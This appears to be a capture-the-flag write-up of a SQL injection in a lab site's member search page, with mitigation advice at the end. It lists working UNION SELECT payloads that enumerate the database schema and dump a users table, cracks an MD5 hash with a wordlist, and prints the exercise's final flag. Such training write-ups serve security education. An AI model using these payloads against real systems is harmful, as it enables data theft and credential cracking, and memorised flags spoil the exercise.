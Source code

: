 # SQL Injection In Member Search Field

## Issue

The input field at "http://{IP}:{PORT}/index.php?page=member" does not sanitize input data which is passed through to a database directly \
resulting in injection of query into SQL database.


## Attack Vector

1 - Navigating to "http://{IP}:{PORT}/index.php?page=member" and entering arbitrary payload eg `' or 1=1` into input field and selecting submit 
reveals SQL syntax error message confirming that data is being passed into query without sanitization

2 - Identify Schemas in database by inputting `4 UNION SELECT null,schema_name from INFORMATION_SCHEMA.SCHEMATA-- -` - we see interesting schema `Member_Sql_Injection` \
Note - as there are only 2 columns being returned/rendered by the server during a normal query then union select needs to only reference 2 columns during query!

3 - Identify the tables in `Member_Sql_Injection` schema with `4 UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS -- -` which reveals table name `users`

4 - Identify all columns in Users table in Member_Sql_Injection with  `4 UNION SELECT COLUMN_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS -- -`

5 - Column names `user_id, first_name, last_name, town, country, planet, Commentaire, countersign` are revealed

6 - Query each column in Users table with `4 UNION SELECT {column_name},{column_name} FROM Member_Sql_Injection.users -- -`

7 - After querying all columns we see one particular interesting entry in the 'Users' table as follows:
| **Column name**  | user_id | first_name | last_name | town | country | planet | Commentaire                                               | countersign                               |
|--------------|---------|------------|-----------|------|---------|--------|-----------------------------------------------------------|------------------------------------------|
| **Data**         | 5       | Flag       | GetThe    | 42   | 42      | 42     | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28        |

8 - Open bash and navigate to script directory. Launch script with `python3 hashcracker.py` to attempt to crack md5 hash against the passwordlist.txt word list

9 - The decrypted hash is found to be `FortyTwo`

10 - We follow the instructions as per table contents and lowercase the word `FortyTwo` then apply a SHA256 algorithm to reveal the flag.

11 - Flag is `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

*NOTE - You can use existing MD5 decryption tools such as MD5decrypt.net to attempt to crack the hash.*


## Mitigation

1 - Sanitize and validate input

2 - Use ORM framework to make queries to database

3 - Do not expose raw SQL error messages





